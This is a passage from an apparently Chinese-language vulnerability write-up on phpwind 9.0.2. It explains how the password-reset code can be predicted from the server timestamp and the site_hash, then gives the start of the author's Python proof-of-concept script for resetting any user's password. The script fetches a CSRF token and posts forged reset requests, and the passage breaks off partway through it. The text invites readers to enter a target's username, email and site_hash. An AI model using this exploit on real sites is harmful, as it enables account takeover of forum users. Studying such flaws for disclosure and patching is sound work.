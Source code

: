 ```
   $url = WindUrlHelper::createUrl('u/findPwd/resetpwd', array('code' => $code, '_statu' => $state));
   list($title, $content) = $this->_buildTitleAndContent($this->info['username'], $url);
   /* @var $activeCodeDs PwUserActiveCode */
   $activeCodeDs = Wekit::load('user.PwUserActiveCode');
   $activeCodeDs->addActiveCode($this->info['uid'], $this->info['email'], $code, Pw::getTime(), PwUserActiveCode::RESETPWD);
   $mail = new PwMail();
   $mail->sendMail($this->info['email'], $title, $content);
   return true;
}
```
生成code，code为substr(md5(Pw::getTime()), mt_rand(1, 8), 8)，请求时服务器会返回时间戳，即使不知道mt_rand(1,8),8)的值，问题也不大，尝试8次即可。  
到此为止已经可以伪造statu和code，这两个参数是重置密码链接中必须的，到此为止我们已经基本成功了，重置链接结构如下：
![5.png](https://lockcy-github-io.vercel.app/2022/05/05/phpwind9-0-2-site-hash%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/5.png)  
自己写了个poc，只需要修改main中username为重置密码的用户名，email为重置密码的邮箱，site_hash为目标站点的site_hash即可。  
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2022/5/4 01:36
# @Author  : lockcy
# @File    : 9.0.2任意用户密码重置.py

from pyDes import des, CBC, PAD_PKCS5
import base64
import hashlib
import requests
import re
from urllib.parse import quote
import string

r = requests.session()

def md5(st):
    return hashlib.md5(st.encode(encoding='UTF-8')).hexdigest()

def des_encrypt(s, key):
    """
    DES 加密
    :param s: 原始字符串
    :return: 加密后字符串，16进制
    """
    size = 8
    iv = md5(key)[-size:]
    key = key[:size]
    # pad = size - (len(s)%size)
    k = des(key, CBC, iv, pad=None, padmode=PAD_PKCS5)
    en = k.encrypt(s, padmode=PAD_PKCS5)
    return base64.b64encode(en)

def request(url, username,email):
    # request for findpwd
    html = r.get(url+'/index.php?m=u&c=findPwd')
    data = re.findall(r'(?<=csrf_token" value=")\w+', html.text)
    csrf_token = data[0]
    print(csrf_token)
    header = {
        'Cookie': 'csrf_token={0};'.format(csrf_token),
    }
    datas = {
        'step':'do',
        'username':username,
```